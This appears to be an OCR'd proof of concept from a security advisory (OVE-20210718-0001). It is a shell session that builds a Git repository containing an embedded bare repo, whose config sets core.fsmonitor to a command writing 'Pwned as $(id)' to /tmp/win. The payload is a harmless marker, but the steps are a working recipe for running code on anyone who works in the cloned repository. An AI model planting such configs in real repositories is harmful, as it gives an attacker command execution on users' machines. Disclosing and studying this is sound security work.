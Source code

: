Create a new Git repo with an embedded bare repo (per OVE-20210718-0001):

```plain
user@a46e008b1311:/$ cd $(mktemp -d)

user@a46e008b1311:/tmp/tmp.FBZkahzNAG$ git init
Initialized empty Git repository in /tmp/tmp.FBZkahzNAG/.git/

user@a46e008b1311:/tmp/tmp.FBZkahzNAG$ mkdir poison

user@a46e008b1311:/tmp/tmp.FBZkahzNAG$ cd poison/

user@a46e008b1311:/tmp/tmp.FBZkahzNAG/poison$ echo 'ref: refs/heads/main' > HEAD

user@a46e008b1311:/tmp/tmp.FBZkahzNAG/poison$ cat > config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	worktree = "worktree"
	fsmonitor = "echo \"Pwned as $(id)\">/tmp/win;false"
^D

user@a46e008b1311:/tmp/tmp.FBZkahzNAG/poison$ mkdir objects refs worktree

user@a46e008b1311:/tmp/tmp.FBZkahzNAG/poison$ touch worktree/.gitkeep

user@a46e008b1311:/tmp/tmp.FBZkahzNAG/poison$ git add .gitkeep

user@a46e008b1311:/tmp/tmp.FBZkahzNAG/poison$ git commit -m 'add gitkeep'
[main (root-commit) 6836c86] add gitkeep
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 .gitkeep

user@a46e008b1311:/tmp/tmp.FBZkahzNAG/poison$ cd ..

user@a46e008b1311:/tmp/tmp.FBZkahzNAG$ git add poison/

user@a46e008b1311:/tmp/tmp.FBZkahzNAG$ git commit -m 'add poison'
[main (root-commit) ede4e2c] add poison
 11 files changed, 13 insertions(+)
 create mode 100644 poison/COMMIT_EDITMSG
 create mode 100644 poison/HEAD
 create mode 100644 poison/config
 create mode 100644 poison/index
 create mode 100644 poison/logs/HEAD
 create mode 100644 poison/logs/refs/heads/main
 create mode 100644 poison/objects/68/36c867dc3f751f3da5d525213e02efb9c54b5d
 create mode 100644 poison/objects/d5/64d0bc3dd917926892c55e3706cc116d5b165e
 create mode 100644 poison/objects/e6/9de29bb2d1d6434b8b29ae775ad8c2e48c5391
 create mode 100644 poison/refs/heads/main
 create mode 100644 poison/worktree/.gitkeep
```
